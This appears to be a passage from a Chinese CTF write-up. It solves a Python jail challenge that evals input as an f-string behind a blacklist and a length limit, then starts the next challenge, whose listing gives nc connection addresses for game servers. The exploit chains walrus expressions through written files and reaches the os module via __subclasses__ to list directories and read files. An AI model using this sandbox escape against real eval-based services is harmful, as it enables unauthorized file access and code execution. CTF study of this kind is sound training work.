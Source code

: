 ```plain
    "__dict__",
    "._module",
    "builtins",
    "breakpoint",
    "import",
]

def my_filter(input_code):
    for x in blacklist_words_var_name_fake_in_local_real_in_remote:
        if x in input_code:
            return False
    return True

while '{' in input_code and '}' in input_code and input_code.isascii() and my_filter(input_code) and "eval" not in input_code and len(input_code) < 65:
    input_code = eval(f"f'{input_code}'")
else:
    print("Player! Please obey the filter rules which I set!")
```

海象表达式，通过写文件绕过长度限制

exp:

```plain
{open("A","w").write("{(a:=().__cla"+"ss__.__bases__[0]")}
{open("A","a").write(",open(chr(66)).read())[1]}")}
{open("B","w").write("{(a:=a.__subcl"+"asses__()[104]()")}
{open("B","a").write(",open(chr(67)).read())[1]}")}
{open("C","w").write("{(a:=a.load_mo"+"dule")}
{open("C","a").write(",open(chr(68)).read())[1]}")}
{open("D","w").write("{(a:=a(chr(111)+chr(115))")}
{open("D","a").write(",open(chr(69)).read())[1]}")}
{open("E","w").write("{(a:=a.listd"+"ir()[6]")}
{open("E","a").write(",open(chr(70)).read())[1]}")}
{open("F","w").write("{print(open(a).read())}")}
{(my_filter:=lambda x:True,open("A").read())[1]}

print(open(().__class__.__bases__[0].__subclasses__()[104]().load_module(chr(111)+chr(115)).listdir()[6]).read())
```

其实还可以直接把 `my_filter` `len` 这些函数给覆盖掉，直接绕过

### ezfuzz

> 以下任一个都可以
> 
> nc 101.200.122.251 12199
> 
> nc 101.200.122.251 12188
> 
> nc 101.200.122.251 12177
> 
> nc 120.24.69.11 12199
> 
> [附件下载](https://pan.baidu.com/s/1ypdoeaeWETKQXYyQb0XcTw) 提取码（GAME）[备用下载](https://share.weiyun.com/8Anohkp7)
